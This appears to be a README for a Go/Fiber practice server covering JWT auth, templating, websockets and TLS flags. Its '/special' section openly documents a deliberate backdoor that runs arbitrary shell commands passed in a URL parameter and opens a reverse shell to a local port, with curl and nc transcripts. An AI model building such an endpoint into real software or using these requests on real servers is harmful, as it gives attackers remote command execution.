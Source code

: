 ```yaml
---
runme:
  id: 01HMWQ2E4EZYRE2B89ENSJXWCF
  version: v2.2
---
```



Basic Go app for experimenging and learning of Go and authentication, including JWT. uilt on Fiber framework.


# Defined Routes:

- `/jwt/login` - endpoint used to get fresh JWT token. Is protetcted by basic HTTP auth
- `/jwt/secret` - endpoint which returns some "secret" data. Needs viable JWT token to be accessed, access denied otherwise.

- `/unprotetced` - just unprotected endpoint. Bare curl will work here.
- `/render` - endpoint which returs HTML rendered from template. For rendering uses values passed within URL parameters. 
There's a mix of optional and mandatory parameters to use. Missing optionals will default to some value. Missing mandatory will throw an error.

```go
mandatory1 := c.Query("mandatory1")
mandatory2Str := c.Query("mandatory2")
optional1 := c.Query("optional1", "defaultOptional1")
optional2Str := c.Query("optional2", "false")
optional3Str := c.Query("optional3", "3.14")

```

- `/special` handler - a small surprise - a remote execution. Checks for `lol` and `start` URL parameters.

`?start=true` will try to dial `tcp://127.0.0.1:9000` so you can use tool like `nc` to launch reverse shell.

```shell
# One terminal window
qbus@DESKTOP-CA07ILV:~/go-playground$ curl -i "http://localhost:8080/special?start=true"
HTTP/1.1 400 Bad Request
Date: Thu, 25 Jan 2024 00:51:30 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 30

Bad Request: Unknown exception


# Second terminal window
nc qbus@DESKTOP-CA07ILV:~/go-playground$ nc -n -l -p 9000
> id
uid=1000(qbus) gid=1000(qbus) groups=1000(qbus),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),116(netdev),1001(docker)

> 
```


`?lol=x` where `x` can be any Linux command will return command output (i.e. `ls`) to client.

```shell
qbus@DESKTOP-CA07ILV:~/go-playground$ curl -i "http://localhost:8080/special?lol=id"
HTTP/1.1 200 OK
Date: Thu, 25 Jan 2024 00:52:46 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 162

uid=1000(qbus) gid=1000(qbus) groups=1000(qbus),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),116(netdev),1001(docker)
```


- `/ws` - endpoint for experimenting with Websocket. You can test it by launching multiple browser windows and console within each.

How to utilize:

Access the browser's developer tools by right-clicking on the webpage and selecting "Inspect" or by pressing Ctrl + Shift + I (Windows/Linux) or Cmd + Opt + I (Mac) to open the Developer Tools. Navigate to the "Console" tab.

In the console, you can create a new WebSocket object using JavaScript

```js
// Create Websocket object
const socket = new WebSocket('ws://127.0.0.1:8080/ws/1');


// Add handlers
socket.addEventListener('open', (event) => {
  console.log('WebSocket connection opened:', event);
});

socket.addEventListener('message', (event) => {
  console.log('WebSocket message received:', event.data);
});

socket.addEventListener('error', (event) => {
  console.error('WebSocket error:', event);
});

socket.addEventListener('close', (event) => {
  console.log('WebSocket connection closed:', event);
});

// Send messages
socket.send('Hello, WebSocket server!');

// Gracefully close socket
socket.close();

```


Endpoints protected by `authMiddleware` - using either Basic auth or Bearer token (secret defined within code, not JWT)

- `/ping` - simple endpoint that returns "pong" (if authentication succeds)
- `/json` - returns JSON with some random data

# CLI commands

In short, server supports toggling HTTPS serving (this will work along with HTTP server).

If TLS is toggled on, there's possibility to provide path to certification files. 

`create-cert.sh` contains basic commands for self-signed certificates.

There's also possibility to change default port values for server.
```text
go run main.go -h

Usage:
  Go server [options]
Options:
  -cert-file string
        Path to the server certificate file (required if enable-tls is true)
  -enable-tls
        Enable serving encrypted app over HTTPS
  -h    Show usage/help (shorthand)
  -help
        Show usage/help
  -http-port int
        HTTP server port (default 8080)
  -https-port int
        HTTPS server port (default 8443)
  -key-file string
        Path to the private key file (required if enable-tls is true)
```

At last, `urltest.sh` contains some `curl` commands for experimenting with endpoints defined.